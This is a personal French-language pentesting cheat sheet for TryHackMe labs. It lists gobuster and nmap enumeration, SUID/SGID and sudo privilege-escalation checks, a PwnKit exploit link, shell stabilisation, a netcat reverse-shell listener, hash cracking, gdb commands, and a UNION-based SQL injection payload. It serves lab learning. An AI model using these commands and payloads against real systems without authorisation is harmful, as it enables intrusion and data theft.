 # TryHackMe



https://github.com/veikoon/pentest/blob/master/commandes.md

Utilitaire :

​	wordlists: ls /usr/share/wordlists/dirb/
​	tmux : <ctrl+a> </> <*>  créer des nouvelles fenêtres

## Premier etape

**Endpoint : ** 

​					gobuster dir -k -x txt,json,php,html -u http://$IP -w /opt/wordlists/common.txt
​					gobuster fuzz --exclude-length XXXX -b 404 -k -u http://$IP/fuzz -w /opt/wordlist/common.txt

**Port : **nmap -sC -sV -A -oN nmap.log $IP

## Reverse Shell

[Github des différentes reverse Shell command](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#tools)]

[Liste des exploit avec permission](https://gtfobins.github.io/)

```
Find all SUID files:
find / -perm -4000 -print 2>>/dev/null
Find all SGID files:
find / -perm -2000 -print 
```



```
all sudo avaible
sudo -l
```



Heberger un serveur pour passer des fichier

```
python2 -m SimpleHTTPServer
```



**PWnk!it    Exploit CVE-2021-4034**  [Github  source](https://github.com/ly4k/PwnKit)
**LinPeass analyse des faille dun système** [Github Source](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)



Stabiliser bash :

```
python -c 'import pty; pty.spawn("/bin/bash")'

ctr+z

stty raw -echo; fg
```



*Si accés a l'uppload de fichier penssé a upload un fichier reverse php ?*

**Ne pas oublier d'écouter le port**

```
nc -lvp 4242
```



## Hash

haiti -e 42f749ade7f9e195bf475f37a44cafcb
https://crackstation.net/

JohnTheReapper

## Reverse Engenering

gdv ./Programme
disas main
break point
`i r` (info registry)
x/s $XXXX



gdb
jump j *@ (modifié)
breakpoint b *@

## Sql injection

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

```sql
group_concat()
```

get the specified column (in our case, table_name) from multiple returned rows and puts it into one string separated by commas. (modifié)

```sql
information_schema
```

contains information about all the databases and tables the user has access to

